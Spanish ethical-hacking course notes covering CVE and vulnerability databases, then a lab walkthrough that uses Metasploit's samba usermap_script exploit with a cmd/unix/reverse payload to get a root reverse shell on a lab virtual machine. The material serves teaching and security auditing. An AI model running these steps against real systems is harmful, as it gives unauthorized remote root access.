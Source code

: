         - ¿Quién asigna un CVE? La CNA (Candidate Numbering Authority) que se constituye por los principales fabricantes de software y hardware, empresas del sector, etc. LA CVE está gestionado por The Mitre Corporation que es una empresa de EEUU que actúa como líder del consejo editor. 
        - Según CVE, una vulnerabilidad es un estado de un sistema informático (o conjunto de sistemas) que cumple alguno de los siguientes casos:
            - Permite a un atacante ejecutar comandos como otro usuario.
            - Permite a un atacante acceder a datos violando las restricciones de control de acceso específicas para dichos datos.
            - Permite a un atacante suplantar a otra entidad.
            - Permite a un atacante llevar a cabo una denegación de servicio.
        - Por supuesto existen varios sistemas para clasificar las vulnerabilidades además de mediante CVE. 
            - Tenemos por ejemplo BID (BugTraq ID), asignado por la lista BugTraq. Empresa comprada por SecurityFocus, que a su vez fue absorbida por Symantec. 
            - MS (Microsoft Security) forma en la cual Microsoft identifica sus fallos de seguridad.
        - Enlaces útiles de cara al Análisis de Vulnerabilidades
            - The Open Source Vulnerability Database (OSVD) -> Open Security Foundation. http://osvdb.org/
            - National Vulnerability Database (NVD). Base de datos perteneciente al gobierno de EEUU de acceso público. http://nvd.nist.gov/
            - SecurityFocus Vulnerability Database -> Symantec http://www.securityfocus.com/bid
            - Exploit DB http://www.exploit-db.com
            - Aplicación nessus para realizar escaneos de redes.
            - MBSA (Microsoft Baseline Security Analyzer) para analizar tu equipo para buscar fallos de seguridad en tu equipo.

### Tema 3.- Escaneando mi red como Hácker Ético - Parte II

Continuamos esta parte de escaneando mi red como Hacker Ético. En esta sección nos centraremos en la explotación de vulnerabilidades de nuestra red.

Para ello primero explicaremos algunos conceptos básicos:
- Bug: Es un fallo de una aplicación durante el desarrollo.
- Exploit: Trozo de código que se aprovecha de un bug para obtener información/acceso/privilegios.
- Payload: Una vez que nos hemos aprovechado del bug por medio de un exploit introduciremos un Payload. Un payload es un código malicioso que se ejecutará en la máquina de la víctima.
- Shellcode: Serie de instrucciones utilizada dentro de un payload para llevar a cabo la explotación del sistema normalmente escritas en lenguage ensamblador. 
- Encoders: Algoritmo para camuflar los payloads.
- Metasploit: Una de las herramientas más utilizadas para los auditores de seguridad. 
    - Para empezar a usar metasploit ejecutaremos el comando `sudo msfdb init` para inicializar la base de datos de Metasploit.
    - A continuación simularemos un caso práctico. Realizaremos una escalada de privilegios en una máquina virtual que tiene como IP 10.0.2.5, para ello en primer lugar ejecutaremos `nmap -sV 10.0.2.5` para ver los servicios que tiene ejecutando esta máquina. Nos fijamos que entre los servicios que tiene ejecutando vemos el servicio Samba entre la versión 3 y 4 y el servicio SQL.  
    - Vamos a ver dos métodos diferentes para obtener el usuario root en esta máquina. 
        - En el primer método utilizaremos el servicio samba, para ello iniciamos la consola de metasploit con el comando `msfconsole` y una vez dentro primero usaremos un exploit para samba para obtener un listado de los usuarios con `use exploit/multi/samba/usermap_script`. Podemos ver las opciones de este script con el comando `show options` pero nosotros ejecutaremos `set RHOSTS 10.0.2.5` para establecer la víctima (comprobamos que lo hemos hecho bien otra vez con el `show options`). A continuación establecemos el payload con `set PAYLOAD cmd/unix/reverse`. Este payload es uno muy conocido que nos permite establecer una terminal reversa, es decir, que mediante una terminal en nuestro equipo podamos acceder a la máquina de la víctima. Para ello es necesario establecer nuestro equipo con `set LHOST 10.0.2.4` (comprobamos que lo hemos hecho bien otra vez con el `show options`). Para ejecutar el exploit basta con ejecutar el comando `run` tras lo cual se nos dará acceso a una terminal. Si probamos a hacer un `ls` podemos ver el contenido del directorio actual y si escribimos `whoami` vemos que directamente somos root. 